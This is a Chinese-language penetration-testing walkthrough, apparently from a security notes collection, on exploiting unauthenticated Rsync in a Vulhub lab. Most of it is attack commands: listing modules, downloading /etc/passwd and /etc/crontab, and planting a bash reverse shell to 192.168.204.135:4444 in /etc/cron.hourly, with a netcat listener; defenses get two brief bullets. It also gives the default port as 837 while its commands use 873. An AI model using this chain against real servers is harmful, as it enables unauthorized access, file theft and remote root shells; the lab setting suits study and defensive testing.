





# Rsync 未授权访问

#### 漏洞简介

Rsync(Remote Sync) 是一个用于文件和目录同步的开源工具，广泛用于 Linux 和 Unix 系统中，它通过比较源文件和目标文件的差异只传输变化的部分，实现高效的增量备份和文件同步，Rsync 默认允许匿名访问，如果在配置文件中没有相关的用户认证以及文件授权就会触发隐患，Rsync 的默认端口为 837

#### 环境搭建

这里我们使用 Vulhub 来构建环境

```plain
docker-compose up -d
```

#### 漏洞检测

```plain
#命令格式
rsync rsync://{target_ip}/

#执行示例
rsync rsync://192.168.204.191:873/
rsync rsync://192.168.204.191:873/src
```



#### 文件下载

任意文件下载

```plain
rsync rsync://192.168.204.191:873/src/etc/passwd ./
```



#### 反弹 Shell

通过使用 rsync 反弹 shell

```plain
# 下载 crontab 配置文件
rsync rsync://192.168.204.191:873/src/etc/crontab ./


该环境 crontab 中的以下内容表示每小时的第 17 分钟执行 run-parts --report /etc/cron.hourly
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
```



随后我们写入 bash 并赋权：

```plain
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.204.135/4444 0>&1
```



```plain
chmod 777
```


随后我们将文件上传至/etc/cron.hourly

```plain
rsync -av nc rsync://192.168.204.191:873/src/etc/cron.hourly
```


```plain
# 本地监听 4444
nc -lnvp 4444
```


反弹成功：



#### 防御手段 

-   数据加密传输等
    

-   访问控制：控制接入源 IP